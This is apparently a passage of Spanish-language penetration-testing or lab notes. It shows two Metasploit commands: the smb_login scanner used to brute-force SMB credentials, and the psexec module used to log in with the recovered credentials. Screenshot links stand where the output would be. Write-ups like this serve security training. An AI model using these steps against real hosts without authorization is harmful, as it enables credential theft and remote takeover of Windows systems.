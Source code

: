 Utilizamos un ataque de fuerza bruta contra el protocolo smb y obtenemos las credenciales:
```bash
use auxiliary/scanner/smb/smb_login
```

![[Pasted image 20240613011044.png]]

Podemos usar el módulo de psexec para iniciar sesión con dichas credenciales:
```bash
use exploit/windows/smb/psexec
```

![[Pasted image 20240613011051.png]]
